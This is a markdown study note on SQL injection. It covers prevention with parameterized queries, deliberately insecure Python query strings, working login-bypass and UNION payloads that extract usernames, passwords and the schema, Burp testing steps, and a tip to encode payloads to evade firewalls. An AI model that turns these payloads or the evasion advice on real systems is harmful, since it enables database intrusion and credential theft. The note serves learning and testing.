 # SQL injection
Allows an attacker to interfere with, and alter, SQL queries being performed by the app.  Relies on string concatenation from unsanitized user input directly into the SQL query.

The attack can come in various forms:

1. Immediate bypass of `WHERE` clause.
2. Information disclosure using `UNION` queries.
3. Stored SQL injection.  This is where the attacker can inject SQL into the database, and have it executed later.

## Prevent
Simple to prevent in an app by using parameterized queries and never allowing dynamic query construction.
```python
with db_connection.cursor(prepared=True) as cursor:
    stmt = "INSERT INTO notes (note, owner_id) VALUES (%s,%s)"
    cursor.execute(stmt, (note, owner_id))
```


## Examples
### Bypass WHERE clause
```python
# Insecure query
query = f"SELECT username FROM users WHERE username = '{username}' AND password = '{password}'"

# If username is passed as either of the following, attack will succeed as the password check is
# bypassed by the SQL comment `--`.
username = "admin'--"
username = "admin' OR 1=1--"
```

### Information disclosure
# Insecure query
query = f"SELECT product_name FROM products WHERE product_id = {product_id}"

# Retrieve all users and passwords
# The UNION query concatenates multiple columns togehter into a single column
# as only one column is being returned by the original query
product_id = "1 UNION SELECT CONCAT(`username`, ' ', `password`) FROM users--"

# View database schema
product_id = "1 UNION SELECT CONCAT(`table_name`, ' ', `column_name`) FROM information_schema.columns--"
```



## Test

1. Use [Burp Proxy](https://portswigger.net/burp/documentation/desktop/tools/proxy) to intercept requests and send them to the [Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater).
2. Alter the request payloads and observe the response.

### Tips

If requests are being blocked, try encoding the attack using a tool like Hackvertor.  Firewalls can sometimes be circumvented by hex and decimal encoding, which the application will decode and execute.

## Tools
* [Burp Proxy](https://portswigger.net/burp/documentation/desktop/tools/proxy)
* [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater)
* [BApp Store > Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100): encode/decode payloads

## References
* https://portswigger.net/web-security/sql-injection
